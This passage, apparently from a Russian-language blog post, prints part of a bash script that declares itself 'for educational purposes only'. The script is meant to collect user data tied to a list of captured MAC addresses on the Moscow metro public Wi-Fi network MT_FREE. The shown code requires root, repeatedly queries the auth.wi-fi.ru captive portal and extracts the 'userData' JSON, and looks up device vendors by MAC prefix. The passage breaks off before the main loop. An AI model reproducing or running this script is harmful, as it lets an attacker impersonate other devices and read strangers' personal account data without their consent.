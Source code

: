 Я не буду показывать на руководство пользования airodump-ng, чтобы не снизить уровень вхождения совсем до нуля.

Скрипт

Для тех, кому просто посмотреть

#!/bin/bash
# script for finding userdata from a list of macs.
# for educational purposes only, of course.

! sudo -p "we require sweet root juices to run, please let us in: " echo -n && exit 1

INPUT=$1
SSID=MT_FREE
DEV=wlp1s0
OUTDIR=check-`date +%d-%m-%yT%H:%M:%S`

[ ! -e $INPUT ] && { echo 'no input'; exit 1; }
[ -z $SSID ] && { echo 'no connection'; exit 1; }

function progress() { echo -ne "\033[K"$1"\033["${#1}"D"; }
function status() { echo -e "\033[K$1"; }

function current_userdata() {
    rm .ck 2> /dev/null
    curl --retry 3 -s -b .ck -c .ck 'https://auth.wi-fi.ru/auth?segment=metro' > /dev/null 2>&1
    curl --retry 3 -s -b .ck -c .ck 'https://auth.wi-fi.ru/auth?segment=metro' 2>/dev/null | grep userData | grep -oP '(?<=JSON.parse\(\").*?(?=\")' | sed 's/\\&quot;/"/g' | json_pp
    rm .ck
}

function oui() {
    MAC=$1
    if [ -e /var/lib/ieee-data/oui.txt ]; then
        OUIMAC=${MAC//:}
        OUIMAC=${OUIMAC[@]:0:6}
        MACINFO=`grep $OUIMAC /var/lib/ieee-data/oui.txt`
        # getting naame (it's always 22 symbols away from the start)
        MACINFO=${MACINFO[@]:22}
        # removing \r on the end
        echo -n ${MACINFO[@]:0:-1}
    fi
}

tput civis

function on_exit() {
    tput cnorm
    echo "turning wifi back on"
    nmcli dev set $DEV managed true
    nmcli dev set $DEV autoconnect true
}
